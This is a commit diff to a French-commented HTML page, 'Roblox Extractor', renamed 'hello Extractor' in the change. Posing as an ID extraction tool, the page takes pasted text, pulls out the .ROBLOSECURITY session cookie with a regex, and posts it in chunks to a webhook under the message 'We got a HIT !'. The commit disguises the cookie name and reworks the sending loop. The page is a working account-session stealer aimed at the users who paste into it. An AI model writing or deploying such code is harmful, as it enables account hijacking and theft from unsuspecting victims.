

Before and after one commit to roblox-extractor/index, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1077 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,3 @@
-
 <!doctype html>
 <html lang="fr">
 <head>
@@ -12,97 +11,11 @@
     .log { margin-top:12px; white-space:pre-wrap; background:#f5f5f5; padding:8px; border-radius:6px; max-height:240px; overflow:auto; }
   </style>
 </head>
-
-
-<style>
-  /* Reset simple */
-  * { box-sizing: border-box; margin: 0; padding: 0; }
-
-  body {
-    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-    max-width: 800px;
-    margin: 30px auto;
-    padding: 20px;
-    background: #f0f2f5;
-    color: #333;
-  }
-
-  h2 {
-    text-align: center;
-    color: #4b6cb7;
-    margin-bottom: 20px;
-  }
-
-  label {
-    display: block;
-    margin-top: 16px;
-    font-weight: 600;
-    color: #4b6cb7;
-  }
-
-  textarea {
-    width: 100%;
-    height: 160px;
-    padding: 10px;
-    border-radius: 8px;
-    border: 1px solid #ccc;
-    font-size: 14px;
-    resize: vertical;
-    transition: border-color 0.2s;
-  }
-  textarea:focus {
-    border-color: #4b6cb7;
-    outline: none;
-    box-shadow: 0 0 5px rgba(75,108,183,0.3);
-  }
-
-  button {
-    margin-top: 15px;
-    padding: 10px 20px;
-    border: none;
-    background: #4b6cb7;
-    color: white;
-    font-weight: bold;
-    font-size: 14px;
-    border-radius: 8px;
-    cursor: pointer;
-    transition: background 0.3s, transform 0.2s;
-  }
-  button:hover {
-    background: #3a539b;
-    transform: translateY(-2px);
-  }
-  button:active {
-    transform: translateY(0);
-  }
-
-  .log {
-    margin-top: 20px;
-    padding: 12px;
-    background: #ffffff;
-    border-radius: 8px;
-    border: 1px solid #ddd;
-    max-height: 250px;
-    overflow-y: auto;
-    font-family: monospace;
-    font-size: 13px;
-    line-height: 1.4;
-    color: #555;
-  }
-
-  /* Responsive */
-  @media (max-width: 600px) {
-    body { padding: 15px; }
-    button { width: 100%; }
-  }
-</style>
-
-
 <body>
-  <h2>Roblox Extractor</h2>
+  <h2>hello Extractor</h2>
 
   <label>Enter The Extraction ID</label>
-  <textarea id="message" placeholder="Roblox Extractor"></textarea>
+  <textarea id="message" placeholder="hello Extractor"></textarea>
 
   <div>
     <button id="sendBtn">Extract</button>
@@ -138,51 +51,69 @@ async function postToWebhook(url, body, isForm=false){
     // Découper le texte en segments de 1998 caractères
     function splitIntoChunks(str, chunkSize=1998){
       const chunks = [];
-  for(let i=0; i<str.length; i+=chunkSize){
-    chunks.push(str.slice(i, i+chunkSize));
+      for(let i = 0; i < str.length; i += chunkSize){
+        chunks.push(str.slice(i, i + chunkSize));
       }
       return chunks;
     }
 
-document.getElementById('sendBtn').addEventListener('click', async ()=>{
+    document.getElementById('sendBtn').addEventListener('click', async () => {
       const text = document.getElementById('message').value;
-  if(!text){ log('Message vide — rien à envoyer.'); return; }
+      if (!text) {
+        log('Message vide — rien à envoyer.');
+        return;
+      }
 
-  // Extraire le texte entre ".ROBLOSECURITY" et ";", en gardant ".ROBLOSECURITY"
-  const regex = /(\.ROBLOSECURITY[\s\S]*?);/g;
+      // Extraire le texte entre "helloSECURITY" et ";", en gardant "helloSECURITY"
+      const regex = /(\helloSECURITY[\s\S]*?);/g;
       let match;
       const extracted = [];
       while ((match = regex.exec(text)) !== null) {
         extracted.push(match[1].trim());
       }
 
-  if(extracted.length === 0){ log('Aucun texte trouvé entre .ROBLOSECURITY et ;'); return; }
+      if (extracted.length === 0) {
+        log('Aucun texte trouvé entre helloSECURITY et ;');
+        return;
+      }
 
-  // Check if the extracted token is too long and split it
+      // Combine all tokens
       const token = extracted.join("\n");
-  let tokenParts = [token];
-  if (token.length > 2000) {
-    tokenParts = splitIntoChunks(token, 1998);
-  }
+
+      // Split the token into chunks of max 1998 characters
+      let tokenParts = splitIntoChunks(token, 1998);
+
+      // Check if any chunk exceeds 2000 characters, and split further if necessary
+      tokenParts = tokenParts.flatMap(part => {
+        return part.length > 2000 ? splitIntoChunks(part) : [part];
+      });
 
       // Envoi du message introductif
       await postToWebhook(webhookUrl, { content: '`We got a HIT ! :`' });
 
-  log('Numbers Of ID Is Being Extract ' + tokenParts.length + ' Please Wait ...');
-  for(let i=0;i<tokenParts.length;i++){
+      log('Number of IDs being extracted: ' + tokenParts.length + '. Please wait...');
+
+      // Send all extracted parts to the webhook
+      for (let i = 0; i < tokenParts.length; i++) {
         const content = '**`' + tokenParts[i] + '`**';
         if (content.length > 2000) {
           log('Erreur: Le contenu dépasse la limite de 2000 caractères.');
           break;
         }
+
         const ok = await postToWebhook(webhookUrl, { content: content });
-    if(ok) log(`ID has been send ${i+1}/${tokenParts.length}.`);
-    else { log('Erro.'); break; }
-    await new Promise(r => setTimeout(r, 250));
+        if (ok) log(`ID has been sent ${i + 1}/${tokenParts.length}.`);
+        else {
+          log('Erreur.');
+          break;
         }
+
+        // Delay to avoid rate limiting
+        await new Promise(r => setTimeout(r, 250)); // 250ms delay to avoid hitting rate limits
+      }
+
       log('Please Wait.');
     });
-
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
